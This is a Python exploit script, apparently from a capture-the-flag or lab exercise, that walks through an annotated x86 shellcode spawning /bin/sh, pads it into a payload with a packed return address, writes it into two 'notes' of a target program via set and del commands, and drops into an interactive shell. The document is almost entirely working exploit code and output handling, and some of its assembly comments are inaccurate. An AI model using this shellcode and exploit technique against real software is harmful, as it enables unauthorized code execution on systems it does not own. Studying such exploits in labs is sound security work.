```

# Crafting a shellcode
"""
Disassembly:

0:  6a 0b                   push   0xb ; push 0xb into the stack
2:  58                      pop    eax ; content of stack into eax
3:  99                      cdq        ; perfoms sign extention 
4:  52                      push   edx ; perfoms push of sign-extended eax into edx
5:  68 2f 2f 73 68          push   0x68732f2f ; pushes "/sh" onto the stack
a:  68 2f 62 69 6e          push   0x6e69622f ; pushes "/bin" onto the stack
f:  89 e3                   mov    ebx,esp    ; mov content of stack into ebx
11: 31 c9                   xor    ecx,ecx    ; set ecx to 0
13: cd 80                   int    0x80       ; invoking system call to execute content of ebx
                                              ; effectively calling "/bin/sh" that's our shell

"""

shellcode = b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

payload = shellcode + (76 - len(shellcode))*"A".encode()
payload += struct.pack('<L', int(free_adr,16))

print("[*]Sending payload to note 0: ",payload)
proc.sendline(b'set')
print(proc.recvuntil(b">").decode())
proc.sendline(b'0')
print(proc.recvuntil(b">").decode())
proc.sendline(payload)
print(proc.recvuntil(b">").decode())
print("[*] Payload sent to note 0 sucessfully")


print("[*] Sending payload to note 1")
payload = struct.pack("<L", int(pop_ebp,16))
proc.sendline(b'set')
print(proc.recvuntil(b">").decode())
proc.sendline(b'1')
print(proc.recvuntil(b">").decode())
proc.sendline(payload)
print(proc.recvuntil(b">").decode())
print("[*] Payload sent to note 1 sucessfully")

#executing payload stored in note 0 and note 1

proc.sendline(b"del")
proc.sendline(b"0")
print(proc.recvuntil(b">").decode())

print("[*] All payload sent successfully!!")

print("[*] Trying to get a sehll")

proc.interactive()

```
